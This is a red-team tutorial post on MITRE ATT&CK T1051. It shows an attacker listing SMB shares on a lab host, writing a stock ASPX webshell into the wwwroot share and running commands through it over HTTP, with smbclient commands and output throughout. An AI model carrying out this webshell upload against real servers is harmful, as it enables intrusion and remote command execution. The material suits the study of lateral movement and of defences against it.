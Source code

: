 ```yaml
---
layout: post
title: "t1051 shared webroot"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1051-shared-webroot/
---
```


---
layout: post
title: "t1051 shared webroot"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1051-shared-webroot/
---

---
description: Lateral Movement
---

# Shared Webroot

## Execution

Enumerating victim host `10.0.0.6` for any shares:

{% code title="attacker@local" %}
```csharp
smbclient -L //10.0.0.6 -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	CertEnroll      Disk      Active Directory Certificate Services share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	temp            Disk      
	tools           Disk      
	transcripts     Disk      
	wwwroot         Disk      
```
{% endcode %}

Logging in to the `wwwroot` share:

{% code title="attacker@local" %}
```csharp
smbclient //10.0.0.6/wwwroot -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 25 16:57:52 2018
  ..                                  D        0  Sat Aug 25 16:57:52 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018
```
{% endcode %}

Uploading a webshell into the `wwwroot`:

```csharp
put /usr/share/webshells/aspx/cmdasp.aspx c.aspx

putting file /usr/share/webshells/aspx/cmdasp.aspx as \c.aspx (341.8 kb/s) (average 341.8 kb/s)
smb: \> ls
  .                                   D        0  Sat Aug 25 16:59:47 2018
  ..                                  D        0  Sat Aug 25 16:59:47 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  c.aspx                              A     1400  Sat Aug 25 16:59:47 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018

		6463487 blocks of size 4096. 3032260 blocks available
```

Same as above in a picture:

![](../../.gitbook/assets/webroot-ownage.png)

Attacker can now access the newly uploaded webshell via `http://10.0.0.6/c.aspx` and start executing commands:

![](../../.gitbook/assets/webroot-rce.png)

## Observations

See T1108: Webshells for observations:

{% page-ref page="../privilege-escalation/t1108-redundant-access.md" %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1051" %}

@spotheplanet
